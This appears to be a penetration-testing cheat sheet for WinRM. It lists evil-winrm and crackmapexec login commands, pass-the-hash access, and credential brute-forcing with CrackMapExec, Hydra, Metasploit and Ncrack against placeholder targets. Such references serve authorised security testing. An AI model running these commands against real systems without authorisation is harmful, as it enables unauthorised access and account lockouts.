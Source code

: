 ```yaml
---
legal-banner: true
---
```


### **Introduction**

WinRM (Windows Remote Management) is a protocol for remote management of Windows machines, It allows for secure communication over HTTP or HTTPS to perform tasks like running scripts and managing data remotely. Integrated into Windows, WinRM is essential for centralized management and automation in multi-server environments.

### **Connecting to WinRM**

| Command | Description |
| --- | --- |
| `evil-winrm -i [TARGET-IP] -u [USERNAME] -p [PASSWORD]` | Connects to a remote Windows server using evil-winrm,This command requires the IP address of the target machine and valid user credentials. |
| `crackmapexec winrm [TARGET-IP] -u [USERNAME] -p [PASSWORD] -x "whoami"` | Tests if a specific username and password combination can log in and execute a command to display the current user identity |
| `crackmapexec winrm [TARGET-IP] -u [USERNAME] -H [HASH] -X '$PSVersionTable'` | Uses a hash for authentication with a PowerShell command to verify access. |

### **Brute-Forcing WinRM Credentials**

| TOOL | Command |
| --- | --- |
| CrackMapExec | `crackmapexec winrm [TARGET-IP] -u [USERNAME-LIST] -p [PASSWORD-LIST] --continue-on-success` |
| Hydra | `hydra -L [USERNAME-LIST] -P [PASSWORD-LIST] [TARGET-IP] winrm -V` |
| Metasploit | `auxiliary/scanner/winrm/winrm_login` |
| Ncrack | `ncrack -p 5985 -u [USERNAME-LIST] -P [PASSWORD-LIST] [TARGET-IP]` |

??? warning 

    Be cautious with brute-forcing WinRM, As it may lead to user account lockouts.
